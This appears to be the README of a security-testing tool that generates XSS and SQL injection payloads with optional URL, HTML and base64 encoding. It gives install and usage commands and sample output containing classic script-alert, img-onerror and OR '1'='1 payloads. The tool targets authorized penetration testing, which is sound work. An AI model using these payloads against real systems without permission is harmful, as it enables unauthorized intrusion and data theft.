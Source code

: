 # Payload Generator

**Payload Generator** is a security testing tool for generating common **XSS** and **SQL Injection** payloads with optional encodings.  
It is designed for penetration testers, bug bounty hunters, and security researchers to quickly create test payloads.

> ⚠️ This tool is for **educational and authorized security testing purposes only**.  
> Do not use it on systems without permission.

---

## Features
- **XSS Payload Generation**  
  Common reflected/stored XSS patterns.
- **SQL Injection Payload Generation**  
  Classic SQL injection strings.
- **Encodings**  
  Supports multiple encodings: `url`, `html`, `base64`.
- **CLI Support**  
  Fully controllable from the command line.
- **Output Saving**  
  Automatically saves payloads to `outputs/` with timestamped filenames.

---

## Project Structure
payload-generator/
├── core/
│ ├── xss.py # XSS payload generator
│ ├── sqli.py # SQLi payload generator
│ └── encoder.py # Encoding functions
├── outputs/ # Saved payload files
├── screenshots/ # CLI demo screenshots
├── wordlists/ # Future payload lists
├── main.py # Main CLI script
├── requirements.txt
├── README.md
└── LICENSE

## Installation
```bash
git clone https://github.com/<your-username>/payload-generator.git
cd payload-generator
pip install -r requirements.txt

##Usage
Generate XSS Payloads

python3 main.py --type xss --param search

Generate SQL Injection Payloads

python3 main.py --type sqli --param username

##Apply Encodings

You can apply one or more encodings:

python3 main.py --type xss --param search --encode url html
python3 main.py --type sqli --param username --encode base64

##Example Output
XSS Example

python3 main.py --type xss --param search --encode url html

Output:

Generated Payloads:

search%3D%3Cscript%3Ealert%281%29%3C/script%3E
search=&lt;script&gt;alert(1)&lt;/script&gt;
---
search%3D%27%3E%3Cimg%20src%3Dx%20onerror%3Dalert%281%29%3E
search=&#x27;&gt;&lt;img src=x onerror=alert(1)&gt;
...

SQLi Example

python3 main.py --type sqli --param username --encode base64

Output:

Generated Payloads:

dXNlcm5hbWU9JyBPUiAnMSc9JzE=
---
dXNlcm5hbWU9YWRtaW4nLS0=
...

Output Files

Payloads are automatically saved in:

outputs/payloads_TYPE_PARAM_TIMESTAMP.txt

Example:

outputs/payloads_xss_search_2025-08-08_15-30.txt

##License

MIT License - See LICENSE for details

##Disclaimer

This tool must only be used for legal and authorized testing.
The author is not responsible for any misuse or damage caused by this tool.
